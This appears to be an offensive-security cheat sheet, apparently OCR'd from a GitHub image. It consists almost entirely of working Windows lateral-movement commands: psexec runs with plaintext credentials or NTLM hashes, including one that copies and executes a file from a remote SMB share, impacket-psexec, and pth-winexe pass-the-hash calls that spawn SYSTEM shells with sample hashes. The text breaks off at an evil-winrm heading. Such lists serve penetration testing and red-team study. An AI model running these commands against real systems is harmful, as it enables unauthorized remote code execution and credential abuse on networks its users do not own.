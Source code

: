 ###### psexec: execute file hostes on remote system with specified credentials  
`psexec /accepteula \\<targetIP> -u domain/user -p password -c -f \\<smbIP>\share\file.exe  `
  
###### psexec: run remote command with specified Hash  
`psexec /accepteula \\<ip> -u Domain/user -p <LM>:<NTLM> cmd.exe /c dir c:\Progra~1  `
  
###### pscexec: run remote command as system  
`psexec /accepteula \\<ip> -s cmd.exe`

###### you can use smbexec.py or wmiexec.py

`└─$ /usr/bin/impacket-psexec test/fcasl:Passw0rd@192.168.1.58`

###### 1. Use pth-winexe for pass the hash attack
`pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe`
###### 2.Use the hash with pth-winexe to spawn a SYSTEM level command prompt:
`pth-winexe --system -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.1.22 cmd.exe`
###### Using winexe
`winexe -U 'admin%password123' //TARGETIP cmd.exe`

###### Use evil-winrm for winrm login